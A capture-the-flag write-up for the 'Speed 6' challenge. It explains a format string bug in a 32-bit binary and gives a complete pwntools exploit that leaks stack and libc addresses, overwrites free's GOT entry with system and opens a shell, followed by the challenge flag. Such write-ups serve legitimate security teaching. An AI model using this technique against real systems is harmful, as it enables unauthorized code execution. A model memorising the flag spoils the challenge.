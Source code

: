 # Speed 6

## Challenge

The program repeatedly reads user input onto the heap, prints it, then frees the chunk used to store it.

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Solution

There is a format string vulnerability present in how input is printed.
As user input is passed directly to `printf`, we can insert conversion specifiers to read and write arbitrary memory.

To spawn a shell, we can overwrite the GOT entry of `free` with `system`, as `free` is called on every iteration of the loop.

However, if `free` is partially overwritten, the program is almost certain to break.
Therefore, we must overwrite `free` in a single pass.

Since our input is stored on the heap, we must use stored base pointers to modify values on the stack.
We need to use this to write multiple addresses on the stack, each covering a part of the GOT entry for `free`.

Once all these addresses are in place, we can leak the libc address by printing the return address of main.
We can then use the addresses of the GOT entry to replace `free` with `system`.
If we include `/bin/sh #` at the start of our payload, we will get a shell when the program attempts to free the payload.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host speed-06.hfsc.tf --port 37122 speed6
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('speed6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'speed-06.hfsc.tf'
port = int(args.PORT or 37122)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

libc = ELF('libc.so.6')

io = start()

io.sendlineafter(b"f5b: ", b"%10$p")
stack = int(io.recvuntil(b"\n", drop=True), 0) - 18 * 4
print(hex(stack))

io.sendlineafter(b"f5b: ", "%{}c".format((stack + 50 * 4 + 2) % 0x10000).encode() + b"%26$hn")
io.sendlineafter(b"f5b: ", "%{}c".format(exe.got['free'] // 0x10000).encode() + b"%34$hn")

io.sendlineafter(b"f5b: ", "%{}c".format((stack + 50 * 4) % 0x10000).encode() + b"%26$hn")
io.sendlineafter(b"f5b: ", "%{}c".format(exe.got['free'] % 0x10000).encode() + b"%34$hn")

io.sendlineafter(b"f5b: ", "%{}c".format((stack + 51 * 4 + 2) % 0x10000).encode() + b"%26$hn")
io.sendlineafter(b"f5b: ", "%{}c".format((exe.got['free'] + 2) // 0x10000).encode() + b"%34$hn")

io.sendlineafter(b"f5b: ", "%{}c".format((stack + 51 * 4) % 0x10000).encode() + b"%26$hn")
io.sendlineafter(b"f5b: ", "%{}c".format((exe.got['free'] + 2) % 0x10000).encode() + b"%34$hn")

io.sendlineafter(b"f5b: ", b"%50$s")
libc.address = unpack(io.recv(4)) - libc.sym['free']
print(hex(libc.address))

fmt = '/bin/sh #'
written = len(fmt)
to_write = ''

to_write = libc.sym['system'] % 0x10000 - written
written += to_write
fmt += "%{}c%50$hn".format(to_write)

to_write = (libc.sym['system'] // 0x10000 - written) % 0x10000
written += to_write
fmt += "%{}c%51$hn".format(to_write)

print(fmt)

io.sendlineafter(b"f5b: ", fmt.encode())

io.interactive()
```

## Flag

```
midnight{9e4eeacd9b722d7cd7b5f99f07fc90d8}
```
